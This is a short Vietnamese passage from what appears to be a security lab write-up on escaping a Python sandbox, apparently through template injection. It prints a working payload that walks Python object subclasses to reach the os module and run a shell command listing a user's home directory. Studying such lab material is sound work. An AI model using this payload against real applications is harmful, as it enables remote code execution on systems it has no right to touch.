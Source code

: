 Ta sẽ sử dụng class `warning.catch_warnings` (index 59) bởi class này import module `sys` , từ đó ta có thể gọi đến module `os` để thực hiện RCE

![Untitled](wu_media/Untitled%209.png)

```python
''.__class__.mro()[2].__subclasses__()[59].__init__.__globals__['sys'].modules['os'].system("ls /home/carlos")
```

![Untitled](wu_media/Untitled%2010.png)

Thấy ta đã list được file morale.txt trong thư mục home của `carlos`

![Untitled](wu_media/Untitled%2011.png)
